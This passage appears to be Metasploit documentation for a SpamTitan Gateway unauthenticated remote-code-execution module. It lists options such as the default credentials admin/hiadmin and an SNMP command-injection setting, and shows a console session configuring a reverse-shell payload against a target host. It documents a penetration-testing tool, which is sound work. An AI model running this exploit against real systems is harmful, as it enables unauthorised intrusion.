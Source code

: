 ### TARGETURI
The base path to SpamTitan. Default value is `/`.

### USERNAME
The username to authenticate, if required (depending on SpamTitan Gateway
version). Default value is `admin`.

### PASSWORD
The password to authenticate, if required (depending on SpamTitan Gateway
version). Default value is `hiadmin`.

### COMMUNITY
The SNMP Community String to use (random string by default).

### ALLOWEDIP
The IP address that will be allowed to query the injected `extend` command.
This IP will be added to the SNMP configuration file on the target. This is
typically this host IP address, but can be different if your are in a NAT'ed
network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it
will default to `127.0.0.1`.

### SNMPPORT
The target SNMP port (UDP). Default port is `161`.

## Scenarios

### SpamTitan Gateway v7.01 - target 0 (in-memory command)

```
msf6 > use exploit/freebsd/webapp/spamtitan_unauth_rce
[*] Using configured payload cmd/unix/reverse
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set LHOST 172.16.60.1
LHOST => 172.16.60.1
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set RHOSTS 172.16.60.101
RHOSTS => 172.16.60.101
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set verbose true
verbose => true
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is typically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
```